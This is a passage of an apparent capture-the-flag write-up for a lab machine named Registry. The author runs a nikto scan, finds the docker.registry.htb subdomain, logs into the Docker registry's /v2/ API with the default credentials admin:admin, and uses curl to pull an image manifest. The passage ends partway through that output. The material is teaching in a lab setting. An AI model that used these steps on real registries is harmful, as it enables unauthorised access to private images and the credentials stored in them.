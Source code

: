 Fig: `/install`




### Subdomain Enumeration
As the given was `http` but looked over `https` too. In order to find the interesting things I usually use `nikto` tool. So I used it here too and got the subdomain as `docker.registry.htb`

```bash
root@gr4n173:~$ nikto -h https://10.10.10.159                                                                             
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.159
+ Target Hostname:    10.10.10.159
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=docker.registry.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=Registry
+ Start Time:         2020-04-02 21:44:11 (GMT5.75)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and Expect-CT header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Hostname '10.10.10.159' does not match certificate's names: docker.registry.htb
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ OSVDB-3092: /install/: This might be interesting...
+ 7876 requests: 8 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-04-03 00:49:25 (GMT5.75) (11114 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


### Docker Registry Exploit

Then I found the dir with dirsearch as `http://docker.registry.htb/v2/` and able to login with creds `admin:admin`. So I googled about it and found the interesting blog which explain how can we exploit the docker registry to download the stored files. You can find it [here](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry).


Then I used this blog to exploit the docker registry and downloaded the file as 

```bash
root@gr4n173:~$ curl --user "admin:admin" http://docker.registry.htb/v2/bolt-image/manifests/latest                [80/311]
{                                                                                                                                                     
   "schemaVersion": 1,                                                                                                                                
   "name": "bolt-image",                                                                                                                              
   "tag": "latest",                                                                                                                                   
   "architecture": "amd64",                                                                                                                           
   "fsLayers": [                                                                                                                                      
      {                                                                                                                                               
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"                                                         
```